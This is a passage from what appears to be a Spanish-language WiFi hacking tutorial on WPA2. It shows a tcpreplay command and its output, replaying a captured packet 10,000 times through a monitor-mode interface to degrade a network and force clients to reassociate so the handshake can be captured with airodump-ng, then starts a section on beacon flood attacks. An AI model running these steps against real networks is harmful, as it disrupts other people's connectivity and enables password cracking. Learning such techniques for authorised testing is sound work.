 - Ahora lo guardamos y lo abrimos con `wireshark`.

- Bueno como tal tuve unos pequeños inconvenientes y tuve que usar otro paquete pero para hacer el ataque simplemente hacemos lo siguiente.

- Con `tcpreplay` indicándole la tarjeta de red en modo monitor a máxima velocidad le indicamos los **loops** para que haga 10K de iteraciones y le indicamos el paquete para que lo repita.

```bash
❯ tcpreplay --intf1=wlan0mon --topspeed --loop=10000 ya.pcap 2>/dev/null
Actual: 10000 packets (280000 bytes) sent in 19.25 seconds
Rated: 14539.0 Bps, 0.116 Mbps, 519.25 pps
Statistics for network device: wlan0mon
	Successful packets:        10000
	Failed packets:            0
	Truncated packets:         0
	Retried packets (ENOBUFS): 0
	Retried packets (EAGAIN):  0
```

- Lo que deberíamos de ver en nuestros dispositivos es que la señal de tu wifi las rayitas tienen que disminuir ya que secuestraste de tal manera el ancho de banda, si lo que quieres es el **handshake** simplemente te pones con `airodump-ng` para capturarlo cuando el cliente se reasocie.

## Beacon Flood Mode Attack 

- Para empezar el **Beacon** es un tipo de paquete que contiene informacion sobre el punto de acceso informacion sobre el canal en el que esta, el tipo de encriptado, el nombre y esas cosas.

- Una forma de ver los paquetes es con `tshark` podemos filtrar directamente por esos paquetes mientras en otra terminal nos ponemos a monitorear con `airodump-ng`.

<p align="center">
<img src="/assets/wifi/hacking-wpa2/web29.png">
</p>

